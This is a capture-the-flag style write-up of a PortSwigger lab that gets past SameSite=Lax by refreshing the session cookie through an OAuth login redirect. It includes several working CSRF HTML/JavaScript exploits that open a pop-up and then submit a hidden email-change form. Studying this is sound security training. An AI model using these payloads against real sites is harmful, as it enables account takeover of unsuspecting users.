

# [`SameSite=Lax` Bypass via Cookie Refresh](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-cookie-refresh)

`SameSite` cookies default to `Lax` unless explicitly set otherwise. However, because this can break SSO authentication flows, it isn't enforced for "top-level" POST requests for the first 120 seconds of the cookie's existence. "Top-level" here means anything that changes the URL in the location bar.

The lab target has an OAuth authentication flow that results in this cookie:

```text
Set-Cookie: session=ewNzZ8DFy40MB8IuCRmqO2koYyOiAPqY; Expires=Thu, 05 Jun 2025 17:42:20 UTC; Secure; HttpOnly
```

Because `SameSite` isn't specified it defaults to `SameSite=Lax`, but that isn't enforced for the first 120 seconds. If I can find a way to force a victim to refresh that cookie, I have a short window to deliver a second URL as the payload.

The following endpoint on this target redirects to the OAuth endpoint, refreshing the cookie:

```text
https://LAB_ID.web-security-academy.net/social-login
```

So, this target requires a two-stage exploit. First, the victim must be coerced into visiting `/social-login`, and after that request completes, a second POST request can be made to the `/my-account/change-email` endpoint, completing the exploit. A successful exploit could do this by providing a link for the user to click, thus allowing a pop-up window to refresh the cookie, and after a sufficient timeout the final payload (a form submit) is triggered.

Here is my original exploit, which works for the test user (`wiener`) but does _not_ work when delivered to the victim-bot:

```html
<form method="POST" action="https://LAB_ID.web-security-academy.net/my-account/change-email">
  <input type="hidden" name="email" value="x@x.x">
</form>
<script>
  function x() { document.forms[0].submit(); }
  function r() {
    window.open('https://LAB_ID.web-security-academy.net/social-login', '_blank');
    setTimeout(x, 5000);
  }
</script>

<a href="#" onclick="r(); return false;">clickme</a>
```

Here is the functional PortSwigger suggested solution:

```html
<form method="POST" action="https://LAB_ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@portswigger.net">
</form>
<p>Click anywhere on the page</p>
<script>
    window.onclick = () => {
        window.open('https://LAB_ID.web-security-academy.net/social-login');
        setTimeout(changeEmail, 5000);
    }

    function changeEmail() {
        document.forms[0].submit();
    }
</script>
```

If the victim-bot arbitrarily clicks links then those two should be functionally equivalent, so I spent a while trying to figure out why my initial version wasn't working. I adjusted my exploit to use `window.onclick()` and it worked:

```html
<form method="POST" action="https://LAB_ID.web-security-academy.net/my-account/change-email">
  <input type="hidden" name="email" value="x@x.x">
</form>
<script>
  function x() { document.forms[0].submit(); }
  window.onclick = () => {
    window.open('https://LAB_ID.web-security-academy.net/social-login', '_blank');
    setTimeout(x, 5000);
  }
</script>

<a href="#">clickme</a>
```

Why? So, while everything works fine for a human victim who clicks the link, maybe the way the victim-bot synthetically clicks links doesn't satisfy Chrome's definition for a "trusted user interaction", and so the pop-up would be blocked and the cookie wouldn't refresh? The switch from element-level to page-level handling might make a difference.

Often the victim-bot will just click links sent to it, but the hint for this lab needs to be taken very literally:



The victim-bot in this lab seems clicks somewhere in the viewport. It doesn't click the link provided via the exploit.

Just for fun, I rewrote the original exploit to use a big image that fills the viewport, otherwise keeping things the same:

```html
<form method="POST" action="https://LAB_ID.web-security-academy.net/my-account/change-email">
  …same as original exploit…
</script>

<a href="#" onclick="r(); return false;"
   style="position:fixed;top:0;left:0;width:100vw;height:100vh;
          background:url('https://labs.web-security-academy.net/files/avatar.png') center/cover no-repeat;
          display:block;border:0;"> </a>
```

That works just fine, although the `window.onclick` approach is cleaner given the bot's behavior.
